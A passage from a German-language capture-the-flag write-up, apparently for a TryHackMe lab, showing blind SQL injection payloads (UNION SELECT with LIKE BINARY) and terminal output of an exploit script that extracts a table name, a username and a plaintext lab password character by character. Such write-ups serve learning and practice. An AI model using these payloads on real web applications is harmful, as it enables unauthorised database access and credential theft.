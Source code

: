 ```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ python3 exploit.py
[+] Updated Result ==> s
[+] Updated Result ==> si
[+] Updated Result ==> sit
[+] Updated Result ==> site
[+] Updated Result ==> siteu
[+] Updated Result ==> siteus
[+] Updated Result ==> siteuse
[+] Updated Result ==> siteuser
[+] Updated Result ==> siteusers
 
[+] Injection Finished
[+] Result ==> siteusers
```

Ok super wir haben eine Table, normalerweise speichert man Werte wie Username in der Spalte "usernames", versuchen wir hier etwas zu erhalten

```
UNION SELECT 1,2,3,4 from siteusers where username LIKE BINARY '{c+i}%' -- -
```

```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ python3 exploit.py
[+] Updated Result ==> k
[+] Updated Result ==> ki
[+] Updated Result ==> kit
[+] Updated Result ==> kitt
[+] Updated Result ==> kitty
 
[+] Injection Finished
[+] Result ==> kitty

```

Jetzt noch ein Password

```
UNION SELECT 1,2,3,4 from siteusers where username = 'kitty' and password LIKE BINARY '{c+i}%' -- -
```

```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ python3 exploit.py
[+] Updated Result ==> L
[+] Updated Result ==> L0
[+] Updated Result ==> L0n
[+] Updated Result ==> L0ng
[+] Updated Result ==> L0ng_
[+] Updated Result ==> L0ng_L
[+] Updated Result ==> L0ng_Li
[+] Updated Result ==> L0ng_Liv
[+] Updated Result ==> L0ng_Liv3
[+] Updated Result ==> L0ng_Liv3_
[+] Updated Result ==> L0ng_Liv3_K
[+] Updated Result ==> L0ng_Liv3_Ki
[+] Updated Result ==> L0ng_Liv3_Kit
[+] Updated Result ==> L0ng_Liv3_Kitt
[+] Updated Result ==> L0ng_Liv3_KittY
 
[+] Injection Finished
[+] Result ==> L0ng_Liv3_KittY

```
